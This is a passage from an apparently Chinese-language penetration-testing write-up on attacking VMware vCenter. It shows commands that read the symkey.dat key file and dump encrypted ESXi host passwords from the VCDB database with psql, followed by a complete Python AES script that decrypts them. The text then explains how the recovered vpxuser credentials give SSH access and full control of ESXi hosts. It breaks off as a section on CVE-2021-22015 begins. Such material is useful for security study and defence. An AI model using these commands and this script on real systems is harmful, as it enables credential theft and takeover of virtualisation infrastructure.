 |     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```bash<br># linux<br>cat /etc/vmware-vpx/ssl/symkey.dat<br><br># windows<br>type C:\ProgramData\VMware\vCenterServer\cfg\vmware-vpx\ssl\symkey.dat<br>``` |

解密 vpxuser 密码

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>python3 decrypt.py symkey.dat password.enc password.txt<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205101033946.png-water_print](assets/1699407775-3366e042fb9a2ea5790c939363b6484d.svg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205101033946.png-water_print")

解密脚本如下：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>37<br>38<br>39<br>40<br>41<br>42<br>43<br>44<br>45<br>46<br>47<br>48<br>49<br>50<br>51<br>52<br>53<br>54<br>55<br>56<br>57<br>58<br>59<br>60<br>61<br>62<br>63<br>64<br>65<br>66<br>67<br>68<br>69<br>70<br>71<br>72<br>73<br>74<br>75<br>76<br>``` | ```python<br>import base64<br>import sys<br><br>from Crypto.Cipher import AES<br><br><br>usage = """<br>Where is symkey.dat<br>Windows：C:\ProgramData\VMware\vCenterServer\cfg\vmware-vpx\ssl\symkey.dat<br>Linux：/etc/vmware-vpx/ssl/symkey.dat<br><br><br>Where is psql<br>Windows: C:\Program Files\VMware\vCenter Server\vPostgres\bin\psql.exe<br>Linux: /opt/vmware/vpostgres/current/bin/psql<br>psql -h 127.0.0.1 -p 5432 -U vc -d VCDB -c "select ip_address,user_name,password from vpx_host;" > password.enc<br><br>python3 decrypt.py symkey.dat password.enc password.txt<br>"""<br><br><br>def pkcs7unpadding(text):<br>    length = len(text)<br>    padding_length = ord(text[-1])<br>    return text[0:length-padding_length]<br><br><br>def decrypt(key, enc_passwords):<br>    passwords = []<br>    key_bytes = bytes.fromhex(key)<br>    for enc_password in enc_passwords:<br>        content = base64.b64decode(enc_password)<br>        iv_bytes = content[:16]<br>        enc_password_bytes = content[16:]<br>        cipher = AES.new(key_bytes, AES.MODE_CBC, iv_bytes)<br>        password_bytes = cipher.decrypt(enc_password_bytes)<br>        password = str(password_bytes, encoding='utf-8')<br>        password = pkcs7unpadding(password)<br>        passwords.append(password)<br>    return passwords<br><br><br>def save_decrypt_password(path, passwords):<br>    data = '\n'.join(passwords)<br>    with open(path, 'w') as file:<br>        file.write(data)<br><br><br>def get_encrypt_password(path):<br>    encrypt_passwords = []<br>    with open(path) as file:<br>        for line in file:<br>            encrypt_password = line.strip('*').strip()<br>            encrypt_passwords.append(encrypt_password)<br>    return encrypt_passwords<br><br><br>def get_key(path):<br>    with open(path) as file:<br>        key = file.read().strip()<br>        return key<br><br><br>def main():<br>    if len(sys.argv) != 4:<br>        print(usage)<br>        exit(1)<br>    key = get_key(sys.argv[1])<br>    encrypt_passwords = get_encrypt_password(sys.argv[2])<br>    save_path = sys.argv[3]<br>    passwords = decrypt(key, encrypt_passwords)<br>    save_decrypt_password(save_path, passwords)<br><br><br>if __name__ == '__main__':<br>    main()<br>``` |

上述获取到的 `vpxuser` 是在 ESXi 与 vCenter 的第一次连接中自动创建的高权限用户。

vpxuser 用户是默认在 ESXi 上创建的，它是根据最小权限原则设计的，所以它可以由 vCenter 管理而不使用 root。该用户是通过一个名为 `vpxd` 的进程创建的，它负责 ESXi 和 vCenter 之间的通信。

关于这个用户的信息并不多，在 ESXi 上的 `passwd` 文件中发现了一个关于它的注释 - `VMware VirtualCenter administrator account`。

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205101046635.png-water_print](assets/1699407775-3366e042fb9a2ea5790c939363b6484d.svg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205101046635.png-water_print")

最后，使用 vpxuser 凭证通过 SSH 连接到具有高权限的被管理的 ESXi，并可以对 ESXi 完全控制：提取虚拟机的内存、列出库存、获取敏感文件、访问敏感信息等。

### [](#33-cve-2021-22015---vcenter-%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E)3.3 CVE-2021-22015 - vCenter 提权漏洞

分析 vCenter 中以 root 权限运行的进程，发现如下在同一个文件夹下运行的 java 进程均链接到同一个文件：

